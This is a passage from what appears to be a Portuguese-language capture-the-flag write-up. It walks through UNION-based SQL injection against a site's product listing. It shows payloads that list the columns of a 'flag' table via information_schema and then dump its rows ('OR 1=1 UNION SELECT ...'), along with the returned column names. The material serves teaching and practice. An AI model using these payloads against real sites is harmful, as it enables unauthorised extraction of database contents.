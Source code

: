 ### Descobrindo colunas da tabela `flag`:

```sql
' UNION SELECT 1, column_name, 3, 4 
FROM information_schema.columns 
WHERE table_name = 'flag';#
```

Retorno:

```
flag → ID, NAME
```

---

## Fase 4: Extraindo dados sigilosos

Agora que sabemos os nomes das tabelas e colunas, podemos montar um `UNION SELECT` para **extrair os dados diretamente**:

```sql
' OR 1=1 UNION SELECT 1, id, name, 4 FROM flag;#
```

> Isso traria os dados da tabela `flag` diretamente para o campo que exibe os produtos no site.


